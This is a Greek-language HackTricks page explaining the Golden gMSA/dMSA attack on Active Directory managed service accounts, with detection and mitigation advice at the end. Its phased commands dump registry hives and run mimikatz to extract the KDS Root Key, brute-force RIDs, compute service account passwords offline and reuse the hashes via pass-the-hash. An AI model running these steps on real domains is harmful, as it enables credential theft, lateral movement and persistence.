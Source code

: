 # Χρυσή επίθεση gMSA/dMSA (Offline Derivation of Managed Service Account Passwords)

{{#include ../../banners/hacktricks-training.md}}

## Επισκόπηση

Οι Λογαριασμοί Υπηρεσιών Διαχείρισης Windows (MSA) είναι ειδικοί κύριοι που έχουν σχεδιαστεί για να εκτελούν υπηρεσίες χωρίς την ανάγκη χειροκίνητης διαχείρισης των κωδικών πρόσβασης τους.
Υπάρχουν δύο κύριες παραλλαγές:

1. **gMSA** – ομαδικός Λογαριασμός Υπηρεσίας Διαχείρισης – μπορεί να χρησιμοποιηθεί σε πολλαπλούς υπολογιστές που είναι εξουσιοδοτημένοι στο χαρακτηριστικό `msDS-GroupMSAMembership` του.
2. **dMSA** – εξουσιοδοτημένος Λογαριασμός Υπηρεσίας Διαχείρισης – ο (προεπισκόπηση) διάδοχος του gMSA, που βασίζεται στην ίδια κρυπτογραφία αλλά επιτρέπει πιο λεπτομερείς σενάρια εξουσιοδότησης.

Για και τις δύο παραλλαγές, ο **κωδικός πρόσβασης δεν αποθηκεύεται** σε κάθε Domain Controller (DC) όπως ένας κανονικός NT-hash. Αντίθετα, κάθε DC μπορεί να **παράγει** τον τρέχοντα κωδικό πρόσβασης εν κινήσει από:

* Το κλειδί **KDS Root Key** σε επίπεδο δάσους (`KRBTGT\KDS`) – τυχαία παραγόμενο GUID-ονομασμένο μυστικό, αναπαραγόμενο σε κάθε DC κάτω από το δοχείο `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …`.
* Το **SID** του στοχευόμενου λογαριασμού.
* Ένα **ManagedPasswordID** ανά λογαριασμό (GUID) που βρίσκεται στο χαρακτηριστικό `msDS-ManagedPasswordId`.

Η παραγωγή είναι: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 byte blob τελικά **base64-encoded** και αποθηκευμένο στο χαρακτηριστικό `msDS-ManagedPassword`.
Δεν απαιτείται καμία κίνηση Kerberos ή αλληλεπίδραση με το domain κατά τη διάρκεια της κανονικής χρήσης κωδικού πρόσβασης – ένας μέλος υπολογιστής παράγει τον κωδικό πρόσβασης τοπικά όσο γνωρίζει τις τρεις εισόδους.

## Χρυσή επίθεση gMSA / Χρυσή dMSA

Εάν ένας επιτιθέμενος μπορεί να αποκτήσει και τις τρεις εισόδους **offline**, μπορεί να υπολογίσει **έγκυρους τρέχοντες και μελλοντικούς κωδικούς πρόσβασης** για **οποιονδήποτε gMSA/dMSA στο δάσος** χωρίς να αγγίξει ξανά το DC, παρακάμπτοντας:

* Τον έλεγχο ανάγνωσης LDAP
* Τα διαστήματα αλλαγής κωδικών πρόσβασης (μπορούν να προϋπολογίσουν)

Αυτό είναι ανάλογο με ένα *Χρυσό Εισιτήριο* για λογαριασμούς υπηρεσιών.

### Προαπαιτούμενα

1. **Συμβιβασμός σε επίπεδο δάσους** ενός **DC** (ή Enterprise Admin), ή πρόσβαση `SYSTEM` σε έναν από τους DCs στο δάσος.
2. Δυνατότητα καταμέτρησης λογαριασμών υπηρεσιών (ανάγνωση LDAP / brute-force RID).
3. .NET ≥ 4.7.2 x64 workstation για να τρέξει [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) ή ισοδύναμο κώδικα.

### Χρυσή gMSA / dMSA
##### Φάση 1 – Εξαγωγή του KDS Root Key

Dump από οποιοδήποτε DC (Volume Shadow Copy / raw SAM+SECURITY hives ή απομακρυσμένα μυστικά):
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
Η συμβολοσειρά base64 που ονομάζεται `RootKey` (όνομα GUID) απαιτείται σε επόμενα βήματα.

##### Φάση 2 – Καταμέτρηση αντικειμένων gMSA / dMSA

Ανακτήστε τουλάχιστον `sAMAccountName`, `objectSid` και `msDS-ManagedPasswordId`:
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId

GoldenGMSA.exe gmsainfo
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) υλοποιεί βοηθητικές λειτουργίες:
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
##### Φάση 3 – Μαντέψτε / Ανακαλύψτε το ManagedPasswordID (όταν λείπει)

Ορισμένες αναπτύξεις *αφαιρούν* το `msDS-ManagedPasswordId` από τις αναγνώσεις που προστατεύονται από ACL. 
Δεδομένου ότι το GUID είναι 128-bit, η απλή βίαιη δοκιμή είναι μη εφικτή, αλλά:

1. Τα πρώτα **32 bits = Unix epoch time** της δημιουργίας του λογαριασμού (ανάλυση λεπτών).
2. Ακολουθούν 96 τυχαία bits.

Επομένως, μια **στενή λίστα λέξεων ανά λογαριασμό** (± λίγες ώρες) είναι ρεαλιστική.
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
Το εργαλείο υπολογίζει υποψήφιες κωδικούς πρόσβασης και συγκρίνει το base64 blob τους με το πραγματικό `msDS-ManagedPassword` χαρακτηριστικό – η αντιστοιχία αποκαλύπτει το σωστό GUID.

##### Φάση 4 – Υπολογισμός & Μετατροπή Κωδικού Πρόσβασης εκτός σύνδεσης

Μόλις γνωρίζεται το ManagedPasswordID, ο έγκυρος κωδικός πρόσβασης είναι ένα βήμα μακριά:
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
Οι παραγόμενοι κατακερματισμοί μπορούν να εισαχθούν με **mimikatz** (`sekurlsa::pth`) ή **Rubeus** για κατάχρηση Kerberos, επιτρέποντας κρυφή **πλευρική κίνηση** και **επιμονή**.

## Ανίχνευση & Μετριασμός

* Περιορίστε τις δυνατότητες **αντίγραφου ασφαλείας DC και ανάγνωσης μητρώου** σε διαχειριστές Tier-0.
* Παρακολουθήστε τη δημιουργία **Λειτουργίας Επαναφοράς Υπηρεσιών Καταλόγου (DSRM)** ή **Αντίγραφο Σκιάς Όγκου** σε DCs.
* Ελέγξτε τις αναγνώσεις / αλλαγές στα `CN=Master Root Keys,…` και τις σημαίες `userAccountControl` των λογαριασμών υπηρεσιών.
* Ανιχνεύστε ασυνήθιστες **εγγραφές κωδικών πρόσβασης base64** ή ξαφνική επαναχρησιμοποίηση κωδικών πρόσβασης υπηρεσιών σε διάφορους υπολογιστές.
* Σκεφτείτε να μετατρέψετε τις gMSAs υψηλής προνομιακής πρόσβασης σε **κλασικούς λογαριασμούς υπηρεσιών** με κανονικές τυχαίες περιστροφές όπου η απομόνωση Tier-0 δεν είναι δυνατή.

## Εργαλεία

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – αναφορά υλοποίησης που χρησιμοποιείται σε αυτή τη σελίδα.
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – αναφορά υλοποίησης που χρησιμοποιείται σε αυτή τη σελίδα.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket χρησιμοποιώντας παραγόμενα κλειδιά AES.

## Αναφορές

- [Golden dMSA – παράκαμψη αυθεντικοποίησης για εξουσιοδοτημένους Διαχειριζόμενους Λογαριασμούς Υπηρεσιών](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [gMSA Active Directory Επιθέσεις Λογαριασμών](https://www.semperis.com/blog/golden-gmsa-attack/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Χρυσή επίθεση εμπιστοσύνης gMSA](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
